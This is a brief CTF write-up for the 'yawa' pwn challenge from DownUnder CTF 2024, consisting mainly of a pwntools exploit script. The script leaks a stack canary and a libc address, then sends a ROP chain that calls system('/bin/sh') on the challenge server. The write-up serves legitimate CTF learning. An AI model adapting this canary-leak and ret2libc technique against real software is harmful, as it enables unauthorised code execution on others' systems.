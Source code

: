 ```yaml
---
title: "Downunder CTF 2024 Writeup"
date: 2025-07-15T00:00:00+08:00
draft: false
github_link: "https://github.com/Jimmy01240397/CTF-writeup"
author: "Chumy"
tags:
  - CTF
image: /images/CTF.png
description: ""
toc: 
---
```


# Downunder CTF 2024 Writeup

第一次解保護全開的 PWN 好開心WW

## yawa


### exploit

```python
import pwn

pwn.context(arch='amd64', os='linux')
libc = pwn.ELF('./libc.so.6')

#r = pwn.process('./yawa')
r = pwn.remote('2024.ductf.dev', 30010)

r.recvuntil(b'\n> ')
r.send(b'1\n' + b'a'*88 + b'\n')
r.recvuntil(b'\n> ')
r.send(b'2\n')
r.recvuntil(b'aaa\n')

canary = b'\x00' + r.recvuntil(b'\n')[:-2]
print(f'canary: {hex(pwn.u64(canary))}')

r.recvuntil(b'\n> ')
r.send(b'1\n' + b'a'*89 + canary[1:] + b'a'*7 + b'\n')
r.recvuntil(b'\n> ')
r.send(b'2\n')
r.recvuntil(b'aaa\n')

libc_init_first = int.from_bytes(r.recvuntil(b'\n')[:-1], 'little') - 0x90
print('libc_init_first: ' + hex(libc_init_first))

r.recvuntil(b'\n> ')

libc_init_first_offset = libc.symbols['__libc_init_first']
libc.address = libc_init_first - libc_init_first_offset
system_addr = libc.symbols['system']
binsh_addr = next(libc.search('/bin/sh'))
pop_rdi = pwn.ROP(libc).find_gadget(['pop rdi', 'ret'])

r.send(b'1\n' + b'a'*88 + canary + b'a'*8 + pwn.p64(pop_rdi.address) + pwn.p64(binsh_addr) + pwn.p64(pop_rdi.address + 1) + pwn.p64(system_addr))

r.recvuntil(b'\n> ')

r.send(b'0\n')

r.interactive()
```

### flag

![image](https://github.com/user-attachments/assets/74ae9cb9-f2e9-4981-bed5-fd0671895d89)

`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`
